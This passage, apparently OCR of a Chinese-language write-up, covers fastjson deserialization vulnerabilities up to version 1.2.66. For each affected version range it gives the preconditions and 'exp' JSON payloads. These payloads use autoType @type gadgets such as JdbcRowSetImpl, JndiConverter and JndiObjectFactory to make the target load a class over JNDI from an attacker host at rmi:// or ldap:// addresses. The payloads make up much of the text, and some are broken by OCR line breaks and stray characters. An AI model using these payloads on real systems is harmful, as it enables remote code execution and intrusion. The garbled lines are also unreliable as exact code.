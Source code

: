 ##### autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false）

**2.5 fastjson<=1.2.45 漏洞详情**  

前提条件：目标服务器存在 mybatis 的 jar 包，且版本需为 3.x.x 系列 < 3.5.0 的版本。  

使用黑名单绕过，org.apache.ibatis.datasource 在 1.2.46 版本被加入了黑名单。  

autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false）  

exp：

```
{
 "a": {
 "@type": "java.lang.Class", 
 "val": "com.sun.rowset.JdbcRowSetImpl"
 }, 
 "b": {
 "@type": "com.sun.rowset.JdbcRowSetImpl", 
 "dataSourceName": "rmi://x.x.x.x:9999/exp", 
 "autoCommit": true
 }
}
```

### **2.6 fastjson<=1.2.47 漏洞详情**

对版本小于 1.2.48 的版本通杀，autoType 为关闭状态也可用。loadClass 中默认 cache 为 true，利用分 2 步，首先使用 java.lang.Class 把获取到的类缓存到 mapping 中，然后直接从缓存中获取到了 com.sun.rowset.jdbcRowSetlmpl 这个类，绕过了黑名单机制。  

##### exp：

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://x.x.x.x:999
9/exploit"}";
```

### **2.7 fastjson<=1.2.62 漏洞详情**

基于黑名单绕过 exp：  

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransacti
on":"ldap://192.168.80.1:1389/Calc"}}
```

### **2.8 fastjson<=1.2.66 漏洞详情**

也是基于黑名单绕过，autoTypeSupport 属性为 true 才能使用，（fastjson>=1.2.25 默认为 false）以下是几个 exp：  
